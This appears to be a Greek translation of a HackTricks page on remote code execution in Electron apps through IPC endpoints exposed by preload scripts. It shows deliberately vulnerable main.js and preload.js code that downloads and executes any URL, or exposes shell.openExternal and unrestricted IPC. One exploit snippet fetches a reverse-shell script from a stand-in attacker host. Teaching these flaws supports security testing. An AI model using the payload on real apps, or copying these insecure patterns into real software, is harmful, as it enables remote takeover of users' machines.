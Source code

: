 # Electron contextIsolation RCE via IPC

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Αν το preload script εκθέτει ένα IPC endpoint από το αρχείο main.js, η διαδικασία renderer θα μπορεί να έχει πρόσβαση σε αυτό και αν είναι ευάλωτο, μπορεί να είναι δυνατή μια RCE.

**Οι περισσότερες από αυτές τις παραδείγματα προήλθαν από εδώ** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). Δείτε το βίντεο για περισσότερες πληροφορίες.

## Example 0

Παράδειγμα από [https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) (έχετε το πλήρες παράδειγμα του πώς το MS Teams εκμεταλλεύτηκε το XSS για RCE σε αυτές τις διαφάνειες, αυτό είναι απλώς ένα πολύ βασικό παράδειγμα):

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Example 1

Δείτε πώς το `main.js` ακούει στο `getUpdate` και θα **κατεβάσει και θα εκτελέσει οποιοδήποτε URL** περάσει.\
Δείτε επίσης πώς το `preload.js` **εκθέτει οποιοδήποτε IPC** γεγονός από το main.
```javascript
// Part of code of main.js
ipcMain.on('getUpdate', (event, url) => {
console.log('getUpdate: ' + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
});

mainWindow.webContents.session.on('will-download', (event, item, webContents) => {
console.log('downloads path=' + app.getPath('downloads'))
console.log('mainWindow.download_url=' + mainWindow.download_url);
url_parts = mainWindow.download_url.split('/')
filename = url_parts[url_parts.length-1]
mainWindow.downloadPath = app.getPath('downloads') + '/' + filename
console.log('downloadPath=' + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on('updated', (event, state) => {
if (state === 'interrupted') {
console.log('Download is interrupted but can be resumed')
}
else if (state === 'progressing') {
if (item.isPaused()) console.log('Download is paused')
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once('done', (event, state) => {
if (state === 'completed') {
console.log('Download successful, running update')
fs.chmodSync(mainWindow.downloadPath, 0755);
var child = require('child_process').execFile;
child(mainWindow.downloadPath, function(err, data) {
if (err) { console.error(err); return; }
console.log(data.toString());
});
}
else console.log(`Download failed: ${state}`)
})
})
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
Εκμετάλλευση:
```html
<script>
electronSend("getUpdate","https://attacker.com/path/to/revshell.sh");
</script>
```
## Παράδειγμα 2

Εάν το preload script εκθέτει άμεσα στον renderer έναν τρόπο να καλέσει το `shell.openExternal`, είναι δυνατόν να αποκτηθεί RCE
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url);
};
```
## Παράδειγμα 3

Εάν το preload script εκθέτει τρόπους για πλήρη επικοινωνία με τη βασική διαδικασία, μια XSS θα είναι σε θέση να στείλει οποιοδήποτε γεγονός. Ο αντίκτυπος αυτού εξαρτάται από το τι εκθέτει η βασική διαδικασία όσον αφορά το IPC.
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb);
};

window.electronSend = (event, data) => {
ipcRenderer.send(event, data);
};
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
